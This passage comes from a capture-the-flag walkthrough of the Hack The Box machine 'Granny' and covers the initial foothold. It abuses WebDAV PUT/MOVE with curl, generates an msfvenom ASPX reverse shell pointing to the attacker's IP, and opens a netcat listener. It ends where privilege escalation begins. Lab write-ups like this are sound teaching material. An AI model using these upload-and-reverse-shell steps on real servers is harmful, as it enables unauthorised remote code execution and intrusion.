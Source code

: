 ```text
root@kali:~/Desktop/htb/granny# curl -X MOVE --header 'Destination:http://10.10.10.15/test.aspx' 'http://10.10.10.15/test.html'root@kali:~/Desktop/htb/granny# curl http://10.10.10.15/test.aspx
<h1>Hello</h1>
```

Perfect! Now we have confirmed that we can successfully upload and execute ASPX code on the web server.

## Initial Foothold <a id="03d0"></a>

Generate an ASPX reverse shell using msfvenom.

```text
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.7 LPORT=1234 -o shell.aspx
```

* **-p**: payload
* **-f**: format
* **LHOST**: attack machine’s \(kali\) IP address
* **LPORT**: the port you want to send the reverse shell to
* **-o**: where to save the payload

Rename the file to _shell.txt_ so that we can upload it on the server.

```text
mv shell.aspx shell.txt
```

Then upload the file on the web server and change the file extension to ASPX.

```text
curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.txtcurl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' 'http://10.10.10.15/shell.txt'
```

Next, set up a listener on your attack machine.

```text
nc -nlvp 1234
```

Execute the _shell.aspx_ file \(either through the browser or the _curl_ command\) to send a shell back to our attack machine.

![](https://miro.medium.com/max/744/1*yycN8mBgy0owbvD8-abFXQ.png)

We get a shell! Unfortunately, we don’t have permission to view the _user.txt_ flag, so we need to escalate privileges.

![](https://miro.medium.com/max/504/1*Lni1TFZq3fyeukHzXdpfVw.png)

**Note**: This shell is unstable and seems to crash every minute or so. So the next couple of steps will have to be done in several sessions. If you don’t want to go through this torture, skip to the ****_**Extra Content**_ ****section that solves the box using Metasploit.

## Privilege Escalation <a id="580f"></a>
